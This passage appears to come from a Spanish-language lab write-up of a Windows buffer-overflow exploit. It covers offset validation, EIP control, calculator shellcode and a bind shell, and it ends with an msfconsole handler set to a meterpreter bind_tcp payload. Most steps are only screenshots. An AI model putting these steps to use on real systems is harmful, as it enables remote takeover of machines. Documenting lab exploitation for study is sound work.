

#### 5.4 Validación de la distancia calculada



#### 5.5 Control del EIP y Explotación

Una vez calculado el offset, se estableció el control del EIP y se ejecutó el shellcode:




#### 5.6 Inyección de shellcode

Se inyectó la calculadora y se validó un exploit exitoso. El siguiente paso fue poner bind shell.



Ahora se crea el código para bind shell desde Kali con `msfvenom` para inyectar el bind shell


Luego se ejecutó el programa para que abra la escucha en el puerto 4444, y se revisó si la conexión existe


Por último, se ejecutó el exploit y se validó el acceso.

```bash
msfconsole

use exploit/multi/handler

set PAYLOAD windows/meterpreter/bind_tcp
```


